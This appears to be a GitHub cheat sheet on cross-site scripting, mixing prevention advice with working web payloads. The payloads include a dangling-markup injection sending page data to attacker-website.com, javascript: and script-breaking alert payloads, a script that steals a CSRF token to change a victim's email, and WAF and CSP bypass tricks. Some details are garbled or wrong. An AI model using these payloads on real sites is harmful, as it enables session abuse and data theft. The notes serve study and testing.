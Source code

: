 # How to prevent XSS:

To prevent XSS in HTTP responses that aren't intended to contain any HTML or JavaScript, you can use 
the **Content-Type** and **X-Content-Type-Options** headers to ensure that browsers interpret the responses in the way you intend.
Use **Content Security Policy(CSP)** to reduce the severity of any XSS vulnerabilities that still can occur. 

# CSP Example
```
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'; frame-src 'none'; base-uri 'none';
```
CSP often block script resources, but allow img element to make requests.
CSP protect also from clickjacking.

# Content-Type explaination: 
XSS only applies to documents that are capable of running active script content in the first place.

A page with the MIME type application/json can't contain active content. To the browser it's just data. The situation would be similar with text/plain, 
text/javascript, image/jpeg, etc.

XSS would be possible with a MIME type of e.g. text/html, image/svg+xml, text/xml and many others. In some cases, vendor-related types such as 
application/x-shockwave-flash may have an XSS potential, too.

# Encode Output Data and validate input:

In an HTML context, you should convert non-whitelisted values into HTML entities:

    < converts to: &lt;
    > converts to: &gt;

In a JavaScript string context, non-alphanumeric values should be Unicode-escaped:

    < converts to: \u003c
    > converts to: \u003e

If a user can supply Javascript on the URL, validate the input to be sure that it use a safe protocol.
They can use harmful protocol like javascript and data.

Don't try to do a blacklist.

# Template engine:

There are some server side template engine that defines they're own way to escape. Ex:
```
{{ user.firstname | e('html') }}
```
## HttpOnly
```
HttpOnlySet-Cookie: sessionid=QmFieWxvbiA1; HttpOnly
```
If the HttpOnly flag is included in the HTTP response header, the cookie cannot be accessed through client side script (if the browser supports this flag).
Using the HttpOnly flag when generating a cookie helps mitigate the risk of client side script accessing the protected cookie.

## Dangling markup injection
Dangling markup injection is a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible.

Suppose an application embeds attacker-controllable data into its responses in an unsafe way:
```
<input type="text" name="input" value="CONTROLLABLE DATA HERE">
```
In this situation, an attacker would naturally attempt to perform XSS. But suppose that a regular XSS attack is not possible, due to input filters, 
content security policy, or other obstacles. Here, it might still be possible to deliver a dangling markup injection attack using a payload like the following:
```
"><img src='//attacker-website.com?
```
Note that the attacker's payload doesn't close the src attribute, which is left "dangling". When a browser parses the response, 
it will look ahead until it encounters a single quotation mark toterminate the attribute. 
Everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string. 
Any non-alphanumeric characters, including newlines, will be URL-encoded.

The consequence of the attack is that the attacker can capture part of the application's response following the injection point, which might contain sensitive data. 
Depending on the application's functionality, this might include CSRF tokens, email messages, or financial data.

Any attribute that makes an external request can be used for dangling markup. 

## XSS Payload

-You can execute JS in href att. with **javascript:** ex:
```
javascript:alert(1)
```
-Try to use ```; alert() ;``` to inject XSS on Javascript.
Result:
``` 
    <script>
            var searchTerms = 'something'; alert(1) ; var myvar = '1';
            document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>
```

# CSRF using XSS: 
```
<script>
var req = new XMLHttpRequest();//It depends on the api, you can try with fetch()
req.onload = handleResponse;
req.open('get','/data',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; //take the users CSRF token
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/data/form', true);
    changeReq.send('csrf='+token+'&email=test@test.com') //Append CSRF token and change email
};
</script>
```
# Other Bypass

-You can try to bypass html escape with the svg element.(That defines vector-based graphics)

-If the web application firewall prevents your requests from ever reaching the website, you can try to throw an exception:
onerror=alert;throw 1

-When the browser has parsed out the HTML tags and attributes within a response, it will perform HTML-decoding of tag attribute values before they are processed any further.
You can try to bypass input validation HTML encoding the special carachters. &apos; will be converted to " and you will bypass the validation. 

-Sometimes you can find the report-uri header, that reflect the actual policy of CSP.
Inject a valid script-src-elem can bypass the CSP overwriting existing script-src directives.

# Common sources(where the code take your's input):
```
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
```

# Common sink:
```
document.write()
window.location
document.cookie
eval()
document.domain
WebSocket()
element.src
postMessage()
setRequestHeader()  (for Ajax request-header manipulation)
JSON.parse()
```
